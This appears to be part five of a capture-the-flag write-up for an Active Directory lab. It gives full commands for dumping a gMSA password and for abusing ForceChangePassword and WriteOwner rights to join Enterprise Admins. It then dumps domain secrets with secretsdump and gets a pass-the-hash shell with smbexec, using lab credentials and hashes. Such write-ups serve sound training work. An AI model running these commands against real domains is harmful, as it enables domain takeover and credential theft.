### NHA - Part 5

When we left off we found out that with our `Share` machine we found the following;



#### ReadGMSAPassword

We can use [gMSADumper.py](https://github.com/micahvandeusen/gMSADumper) to get the password for GMSA.

*Attempting to do however leads to the following*


My initial thought was this is because I didnt have the LM hash, so taking the administrator hash we can use `nxc` with `--lsa` we can try and get it.

```bash
nxc smb share -u Administrator -H 7849822ea2995bac91cc0a20c6af1fbe --local-auth --lsa
```

*unexpected.jpg*


Well, in attempting to get the LT ... `nxc` seems to have done the hard work for us. Attempting to use the `gmsadumper` with the LT hash found fails - so we will take the `nxc` results and move forward.

#### ForceChangePassword

Next we can use the `ForceChangePassword` attribute from the GMSA account on the `Backup` account.

We can use the `pth-toolkit` either from the kali repos or the [GitHub Repo](https://github.com/byt3bl33d3r/pth-toolkit)

This isnt as intuitive as you think -- be sure to note the "ffff", the wonderful people at [TheHacker.Recipes](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword) always save the day.



#### WriteOwner

We have `WriteOwner` on the Enterprise Admins group, we can simply add the backup user to EA

First we can allow ourselves to **be owners** of the group:

```bash
owneredit.py -action write -new-owner-dn 'CN=BACKUP,CN=USERS,DC=ACADEMY,DC=NINJA,DC=LAN' -target-dn 'CN=ENTERPRISE ADMINS,CN=Users,DC=academy,DC=ninja,DC=lan' 'academy.ninja.lan/backup':'Iloveu1!' -dc-ip 192.168.56.20
```



Then we will add give ourselves **write** access to the group

```bash
dacledit.py -action 'write' -rights 'WriteMembers' -principal 'backup' -target-dn 'CN=ENTERPRISE ADMINS,CN=Users,DC=academy,DC=ninja,DC=lan' 'academy'/'backup':'Iloveu1!' -dc-ip 192.168.56.20
```



Now we will **add ourselves** to the group

```text
pth-net rpc group addmem "Enterprise Admins" "backup" -U 'academy/backup'%'Iloveu1!' -S 'dc-ac.academy.ninja.lan'
```



#### Secretsdump

Now we are an Enterprise Admin. We can use `Secretsdump` to pull all our secrets

```text
secretsdump.py academy/backup:'Iloveu1!'@dc-ac.academy.ninja.lan -output dcac-dump
```



#### Flags

We can use `smbexec` to get a semi shell

```text
smbexec.py Administrator@dc-ac.academy.ninja.lan -hashes aad3b435b51404eeaad3b435b51404ee:8fd12ffe951b45af5bea2bd921accba4
```





Then to make things easier to read - we can upload the `runme.bat` and execute our terminal based shell





Flag: `NHA{WellD0ne_Sense1!_nowroot_secOnd_Domain}`
